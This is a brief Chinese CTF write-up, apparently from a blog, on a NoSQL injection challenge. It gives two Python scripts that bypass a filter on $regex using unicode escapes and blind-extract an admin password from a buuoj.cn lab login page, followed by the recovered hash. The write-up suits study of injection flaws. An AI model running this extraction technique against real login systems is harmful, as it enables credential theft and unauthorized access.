 根据提示nosql

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211026223957.png)

经测试regexp、ne等被ban，用unicode绕过

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211026225738.png)

盲注

	import requests
	import string
	import time

	flag = ""
	url = "http://node4.buuoj.cn:27064/login.php"

	while True:
    	for i in string.printable:
        	if i not in ['*', '+', '.', '?', '|', '#', '&', '$']:
            	data = """{"username":"admin","password":{"\\u0024\\u0072\\u0065\\u0067\\u0065\\u0078":"^%s"}}""" % (flag + i)
            	headers = {'Content-Type': 'application/json'}
            	r = requests.post(url=url,headers=headers,data=data)

            	if '登录了' in r.content.decode():
                	flag += i
                	print(flag)
                	time.sleep(0.2)

或

	import requests
	import string
	import time

	Troy3e = ['0', '1','2', '3','4', '5','6', '7','8','9','a','b','c ','d', 'e','f', 'g','h', 'i', 'j','k', 'l', 'm','n', 'o', 'p','q', 'r','s ' , 't', 'u ','v', 'w', 'x ', 'y' ,'z', 'A','B','C','D','E','F','G','H','I','J','K','L','M','N', 'O','P', 'Q','R','S','T','U','V','W ','X ','Y','Z']
	flag = ""
	url = "http://node4.buuoj.cn:27064/login.php"

	while True:
    	for i in Troy3e:
        	data = """{"username":"admin","password":{"\\u0024\\u0072\\u0065\\u0067\\u0065\\u0078":"^%s"}}""" % (flag + i)
        	headers = {'Content-Type': 'application/json'}
        	r = requests.post(url=url,headers=headers,data=data)

        	if '登录了' in r.content.decode():
            	flag += i
            	print(flag)
            	time.sleep(0.2)

42276606202db06ad1f29ab6b4a1307f
根据提示读nginx配置文件
